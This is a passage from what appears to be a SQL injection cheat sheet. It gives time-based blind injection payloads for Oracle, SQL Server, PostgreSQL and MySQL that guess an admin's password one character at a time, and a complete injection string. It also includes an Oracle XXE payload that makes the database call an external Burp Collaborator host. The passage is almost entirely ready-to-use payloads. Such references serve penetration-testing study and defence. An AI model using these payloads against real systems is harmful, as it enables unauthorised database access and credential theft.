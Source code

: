 
<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>

```sql
SELECT CASE WHEN ({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) THEN 'a' \|\| dbms_pipe.receive_message(('a'), {{ delay 10 }}) ELSE NULL END FROM dual
```

</template>
<template v-slot:microsoft>

```sql
IF ({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) WAITFOR DELAY '0:0:{{ delay 10 }}'
```

</template>
<template v-slot:pgsql>

```sql
SELECT CASE WHEN ({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) THEN pg_sleep({{ delay 10 }}) ELSE pg_sleep(0) END
```

</template>
<template v-slot:mysql>

```sql
SELECT IF({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }},sleep({{ delay 10 }}),'a')
```

</template>
</smart-tabs>

A full payload could look like this:

```text
'; IF (SELECT COUNT(Username) FROM Users WHERE {{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) = 1 WAITFOR DELAY '0:0:{{ delay 10 }}'--
```

### Using out-of-band (OOB) techniques
What if the queries run asyncronously or `sleep` functions are disabled? Well we can still use certain _out-of-band_(OOB) techniques, such as making the DBMS to make requests or run DNS queries.

#### Testing for injections

<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>

On Oracle you can try to trigger a XXE vulnerability while parsing XML:
```sql
SELECT extractvalue(xmltype('&lt;&quest;xml version&equals;&quot;1&period;0&quot; encoding&equals;&quot;UTF-8&quot;&quest;&gt;&lt;&excl;DOCTYPE root &lsqb; &lt;&excl;ENTITY &percnt; remote SYSTEM "https://{{ collaborator your-burpcollaborator.net }}/"&gt; &percnt;remote&semi;&rsqb;&gt;'),'/l') FROM dual
```
